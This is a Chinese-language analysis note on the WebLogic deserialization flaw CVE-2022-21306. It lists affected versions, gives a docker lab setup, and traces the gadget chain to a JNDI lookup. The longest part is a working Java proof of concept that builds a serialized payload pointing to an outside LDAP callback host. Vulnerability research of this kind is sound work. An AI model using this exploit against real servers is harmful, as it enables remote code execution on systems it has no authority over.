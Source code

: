 # CVE-2022-21306 反序列化漏洞
- [[#影响版本|影响版本]]
- [[#环境搭建|环境搭建]]
- [[#原理分析|原理分析]]
	- [[#原理分析#FileSessionData|FileSessionData]]
	- [[#原理分析#AttributeWrapperUtils|AttributeWrapperUtils]]
	- [[#原理分析#JNDI|JNDI]]
	- [[#原理分析#poc|poc]]

## 影响版本
Oracle Weblogic 12.1.3.0.0   
Oracle Weblogic 12.2.1.3.0  
Oracle Weblogic 12.2.1.4.0 
Oracle Weblogic 14.1.1.0.0
## 环境搭建
`docker run --name="weblogic" -d -p 7001:7001 -p 5005:5005 vulhub/weblogic:12.2.1.3-2018`
## 原理分析
一条T3协议的反序列化新链,简单记录一下该链.

### FileSessionData
在Weblogic的有一个FileSessionData类继承于SessionData类,其重写了toString()方法.
![](pic/Pasted%20image%2020220530152101.png)
在该类中经过几次调用最后会执行AttributeWrapperUtils.unwrapObject(name, (AttributeWrapper)o.
![](pic/Pasted%20image%2020220530152200.png)
其中o是从attributes map中取得Key为wl_debug_session的对象.
### AttributeWrapperUtils
来到AttributeWrapperUtils类中,当取得的对象为BusinessHandle子类时则会调用BusinessHandle类的getBusinessObject()方法.	
![](pic/Pasted%20image%2020220530152352.png)
来到其getBusinessObject()方法,其中当primarkKey为空时,则调用homeHandle#getEJBHome()方法.
![](pic/Pasted%20image%2020220530152750.png)
### JNDI
最终在homeHandle中执行了以ctx.lookup()造成JDNI注入.
![](pic/Pasted%20image%2020220530152909.png)
最后用CC5中的BadAttributeValueExpException来进入FileSessionData的toString()方法即可.
### poc
```java
import weblogic.ejb.container.internal.BusinessHandleImpl;  
import weblogic.ejb20.internal.HomeHandleImpl;  
import weblogic.servlet.internal.AttributeWrapper;  
import weblogic.servlet.internal.session.FileSessionData;  
import javax.management.BadAttributeValueExpException;  
import javax.naming.ldap.LdapName;  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class cve_2022_21306 {  
    public static void main(String[] args) throws Exception {  
        //HomeHandleImpl  
        HomeHandleImpl homeHandles = new HomeHandleImpl();  
        Field jndiname = homeHandles.getClass().getDeclaredField("jndiName");  
        Field serverurl = homeHandles.getClass().getDeclaredField("serverURL");  
        serverurl.setAccessible(true);  
        jndiname.setAccessible(true);  
        jndiname.set(homeHandles,new LdapName("cn=a,dc=a"));  
        serverurl.set(homeHandles,"ldap://caa336c2vtc0000tkqx0gffd8ahyyyyyd.interact.sh/a");  
        //BusinessHandleImpl  
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();  
        Field homeHandle = businessHandle.getClass().getDeclaredField("homeHandle");  
        homeHandle.setAccessible(true);  
        homeHandle.set(businessHandle,homeHandles);  
        //AttributeWrapper  
        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);  
        Map<String, Object> attribute = new HashMap<>();  
        attribute.put("wl_debug_session",attributeWrapper);  
        //FileSessionData  
        FileSessionData fileSessionData = new FileSessionData();  
        Field attributes = fileSessionData.getClass().getSuperclass().getDeclaredField("attributes");  
        attributes.setAccessible(true);  
        attributes.set(fileSessionData,attribute);  
        //BadAttributeValueExpException  
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);  
        Field val = Badobj.getClass().getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(Badobj,fileSessionData);  
        ObjectOutputStream oos  = new ObjectOutputStream(new FileOutputStream("test.ser"));  
        oos.writeObject(Badobj);  
    }}
```